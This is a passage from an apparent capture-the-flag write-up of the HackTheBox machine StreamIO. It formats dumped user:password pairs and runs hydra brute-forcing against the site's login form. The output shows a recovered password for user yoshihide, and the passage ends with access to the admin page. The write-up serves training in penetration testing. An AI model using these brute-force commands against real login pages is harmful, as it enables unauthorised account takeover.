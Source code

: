 We could try all manual, but let's automatize:

Let's format it for a bruteforce:

```
cat HASHESV2 | cut -d: -f1,3 > userpass
```

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
hydra -C userpass streamio.htb https-post-form "/login.php:username=^USER^&password=^PASS^:F=failed"
```

Which will output:

```
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-12 21:54:58
[DATA] max 13 tasks per 1 server, overall 13 tasks, 13 login tries, ~1 try per task
[DATA] attacking http-post-forms://streamio.htb:443/login.php:username=^USER^&password=^PASS^:F=failed
[443][http-post-form] host: streamio.htb   login: yoshihide   password: 66boysandgirls..
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-09-12 21:55:00
```

We are able to connect and after further enumeration, access the admin page:

<figure><img src="../../.gitbook/assets/image (19) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
